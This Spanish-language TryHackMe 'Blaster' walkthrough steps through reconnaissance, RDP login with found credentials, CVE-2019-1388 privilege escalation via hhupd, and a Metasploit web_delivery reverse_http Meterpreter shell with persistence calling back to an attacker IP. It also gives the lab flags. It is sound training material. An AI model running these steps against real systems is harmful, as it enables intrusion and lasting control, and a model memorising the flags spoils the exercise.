

# BLASTER

## Task 1: Mission start!
Start Machine (obtener la IP)

## Task 2: Activate Forward Scanners and Launch Proton Torpedoes

### (a) ¿Cuántos puertos abiertos hay en nuestro sistema objetivo?
Usaremos el comando **`nmap -T4 -A -p- <target ip>`** y veremos que hay **2** puertos abiertos: **80/tcp** y **3389/tcp**.

**ANSWER:** 2

### (b) ¿Cuál es el nombre del sitio web?
Escribimos la IP que nos ha dado THM en el navegador y veremos que el nombre del sitio web resultante es: **IIS Windows Server**

**ANSWER:** IIS Windows Server

### (c) ¿Qué directorio oculto descubrimos al hacer fuzzing?
Si hacemos fuzzing con **feroxbuster** veremos que el directorio buscado es **/retro**.

**ANSWER:** /retro

### (d) Si navegamos a esa carpeta, ¿qué nombre de usuario descubrimos?
Si vamos al navegador y escribimos **"target ip"/retro** encontraremos el nombre de usuario **wade** en el sitio web.

**ANSWER:** wade

### (e) ¿Qué posible contraseña podemos encontrar en los comentarios de la web?
Si buscamos en los comentarios de la página encontraremos uno en el que Wade escribe la posible contraseña (**en el segundo comentario**)

.png)

.png)

**ANSWER:** parzival

### (f) ¿Qué contiene el fichero user.txt? Tendremos que loggearnos via Microsoft Remote Desktop.
Abrimos un terminal aparte y escribimos el siguiente comando:
**`rdesktop -u wade -p parzival -g 1280x720 <target_ip>`**

Una vez hecho esto, abrimeros el fichero **user.txt** y dentro veremos la respuesta a esta pregunta de THM.

.png)
.png)
.png)

**ANSWER:** THM{HACK_PLAYER_ONE}

## Task 3: Breaching the Control Room

### (a) ¿Cuál fue el CVE investigado en el escritorio remoto?
Si accedemos al historial de Internet Explorer y pulsamos en la estrellita para ver el historial veremos que el **CVE-2019-1388**, el cual está relacionado con una **vulnerabilidad de elevación de privilegios**, es el que buscamos:

**ANSWER**: CVE-2019-1388

### (b) ¿Cuál es el nombre del ejecutable necesario para explotar esta vulnerabilidad?
Si volvemos al escritorio veremos que hay un ejecutable llamado **hhupd**. Ese es el que buscamos.

**ANSWER**: hhupd

### (c) Explota la vulnerabilidad
Para explotar esa vulnerabilidad empezaremos cargando el ejecutable **hhupd** como administrador. Veremos que se nos pide una contraseña que no tenemos.

.png)

Lo que haremos entonces será pinchar en **Show more details > Show information about the publisher's certificate > VeriSign Commercial Software Publishers CA**.

.png)

Ese último paso nos abrirá el navegador de **Internet Explorer**, el cual nos indicará que no es capaz de cargar la página. Lo que haremos será pinchar en **Settings > File > Save as...** para descargar el archivo.

.png)

Cuando se nos abrá el explorador de archivos escribiremos **C:\Windows\System32\"."** en la barra del nombre del archivo y posteriormente **C:\Windows\System32\cmd.exe** en la barra superior.

.png)

Eso nos abrirá una **terminal**. Si introducimos el comando **whoami** veremos que somos **administradores** del sistema.

.png)

### (d) Una vez obtenida la terminal de administrador, si hacemos whoami qué nombre de usuario sale
Acabamos de verlo.

**ANSWER:** nt authority\system

### (e) ¿Qué contiene el archivo root.txt?
Si nos movemos a la carpeta del usuario **Administrator** y luego a **Desktop**, y hacemos **dir**, encontraremos un archivo llamado **root.txt**. Si visualizamos su contenido con el comando **type** encontraremos la **flag**.

**ANSWER:** THM{COIN_OPERATED_EXPLOITATION}

## Task 4: Adoption into the Collective
### (a) Abre Metasploit y ejecuta el script `exploit/multi/script/web_delivery`

### (b) Establece el target para PSH (PowerShell). ¿Qué número es?

**ANSWER:** 2

### (c) Establece LHOST y LPORT

### (d) Ejecuta el comando `set payload windows/meterpreter/reverse_http` y después `run -j`.
Establecemos el payload (deberemos cambiar **lport** a 443 para que lo haga bien)

Ejecutamos el payload

### (e) Hazte root en la máquina objetivo
Copiamos la **salida de Metasploit** y me la llevo al terminal_admin del escritorio remoto y la pego ahí.

Al pulsar Enter conseguiremos hacernos **root**.

### (f) ¿Qué comando podemos ejecutar en nuestra consola de meterpreter para configurar la persistencia que se inicia automáticamente cuando se inicia el sistema?

**ANSWER:** run persistence -x

### (g) Ejecuta el comando `run persistence x -r <ip-THM> -p 9001`

Con esto habremos establecido **persistencia** en la máquina objetivo para realizar futuras acciones en ella.

